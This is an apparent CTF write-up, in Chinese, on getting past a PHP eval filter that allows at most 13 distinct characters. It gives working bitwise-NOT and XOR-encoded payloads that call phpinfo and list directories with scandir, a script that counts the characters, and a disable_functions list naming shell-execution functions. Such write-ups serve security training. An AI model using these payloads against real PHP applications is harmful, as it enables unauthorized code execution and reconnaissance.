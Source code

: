 要求所有使用过的字符不超过13种。

取反绕过：
phpinfo
`(~%8F%97%8F%96%91%99%90)();`
发现页面没回显
使用异或`%FF`绕过

`((%8F%97%8F%96%91%99%90)^(%FF%FF%FF%FF%FF%FF%FF))();`

```php

<?php


$_ = "phpinfo";
$__ = "((%8F%97%8F%96%91%99%90)^(%FF%FF%FF%FF%FF%FF%FF))();";

echo strlen(count_chars(urldecode($__),3));
?>
# 输出11，长度符合
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/a0db84d1547544dfacc95f9c17dfaa59.png)
找disable_functions

`	pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,escapeshellarg,escapeshellcmd,passthru,proc_close,proc_get_status,proc_open,shell_exec,mail,imap_open,`
禁用了众多命令执行函数

``

```php

$a = "var_dump";
$b = "scandir";
$c = ".";

echo urlencode(~$a)."\n";
echo urlencode(~$b)."\n";
echo urlencode(~$c)."\n";

(%89%9E%8D%A0%9B%8A%92%8F)^(%FF%FF%FF%FF%FF%FF%FF%FF)
(%8C%9C%9E%91%9B%96%8D)^(%FF%FF%FF%FF%FF%FF%FF)
(%D1)^(%FF)
```
var_dump(scandir(.))
`(%89%9E%8D%A0%9B%8A%92%8F)^(%FF%FF%FF%FF%FF%FF%FF%FF)((%8C%9C%9E%91%9B%96%8D)^(%FF%FF%FF%FF%FF%FF%FF)((%D1)^(%FF)));`

用var_dump有18种字符，用print_r有16种字符
print(scandir(.))
`(%8F%8D%96%91%8B%A0%8D)^(%FF%FF%FF%FF%FF%FF%FF)((%8C%9C%9E%91%9B%96%8D)^(%FF%FF%FF%FF%FF%FF%FF)((%D1)^(%FF)));
`
